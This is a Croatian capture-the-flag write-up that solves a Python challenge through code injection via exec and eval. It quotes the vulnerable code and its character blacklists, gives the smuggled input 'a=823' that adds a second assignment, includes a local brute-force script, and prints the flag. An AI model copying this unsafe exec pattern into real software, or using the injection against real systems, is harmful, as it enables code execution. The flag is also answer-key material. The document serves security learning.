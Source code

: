 # Writeup
Zadatak se sastoji od jednog python programa koji očekuje korisnički ulaz kao naziv i vrijednost varijable.

S obzirom na ograničenu veličinu korisničkog ulaza, može se probati izraditi _bruteforce_ na sve moguće kombinacije brojeva:

```
import subprocess

def rjesiMisiju(prvi_input,drugi_input):
    ulaz = f"{prvi_input}\n{drugi_input}\n"
    rezultat = subprocess.run(
        ["python3", "misija.py"],
        input= ulaz,
        capture_output=True,
        text=True
    )
    output = rezultat.stdout.strip()
    return output

for broj in range(100000):
    output = rjesiMisiju("b",str(broj))
    print(f"Ulaz: {str(broj)} --> Izlaz: {output}")
    if "ERROR" not in output:
            print(f"Uspjeh: {str(broj)}")
            break
else:
    print("Nije pronaden ispravni broj!")

```

Ovaj pokušaj nije dao rješenje.
Najveći problem je ovaj uvjet:

```
if(eval(f"(({ime}*20) != (a * (-2 + (4 * 3) + 10 )))")):
        print("ERROR - Krivo 3")
        return False
```

Kada se on skrati, postane vrlo jednostavan:

```
if(eval(f"( {ime} != a)")):
        print("ERROR - Krivo 3")
        return False
```

To znači da vrijednost korisničke varijable i varijable ```a``` mora biti jednaka.
Trenutno je vrijednost varijable ```a``` postavljeno na početku programa na ```2```.
Ne postoji drugi dio programa koji mijenja vrijednost varijable ```a```.

Detaljnijim pregledom kod programa, može se uočiti jedan sumnjivi dio:

```
zabranjeni_znakovi = {"(",")","+","-","=","/","*","_",",",".","'",'"',"$",":"," ","\\","a"}
...
zabranjeni_znakovi = {"(",")","+","-","/","*","_",",",".","'",'"',"$",":"," ","\\"}
```

Razlika prikazanih skupova znakova je u tome da drugi skup znakova ne sadrži znakove ```=``` i ```a```.
Zapravo, kod drugog skupa znakova moguće je korištenje funkcije ```exec``` za manipuliranje vrijednosti varijable ```a```.
```
exec(f"{ime_varijable}={vrijednost_varijable}")
```

Kao korisnički ulaz vrijednosti varijable može se unijeti: ```a=123```.
Tako funkcija ```exec``` zapravo izvrši slijedeću naredbu: ```b=a=123```.
Ovim načinom obje varijable poprime istu vrijednost.

Može se preurediti prva _bruteforce_ skripta tako da provjerava sve moguće zajedničke vrijednosti korisničke varijable i varijable ```a```.

```
import subprocess

def rjesiMisiju(prvi_input,drugi_input):
    ulaz = f"{prvi_input}\n{drugi_input}\n"
    rezultat = subprocess.run(
        ["python3", "misija.py"],
        input= ulaz,
        capture_output=True,
        text=True
    )
    output = rezultat.stdout.strip()
    return output

for broj in range(1000):
    output = rjesiMisiju("b",str(broj))
    print(f"Ulaz: {str(broj)} --> Izlaz: {output}")
    if "ERROR" not in output:
            print(f"Uspjeh: {str(broj)}")
            break
else:
    print("Nije pronaden ispravni broj!")
```



Prvi broj koji je uspio rjesiti misiju je ```823```.
S korisničkim unosom ```b``` i ```a=823``` ispiše se flag: ```CTFFOI[3vAls_4nD_Ex3cs]```.
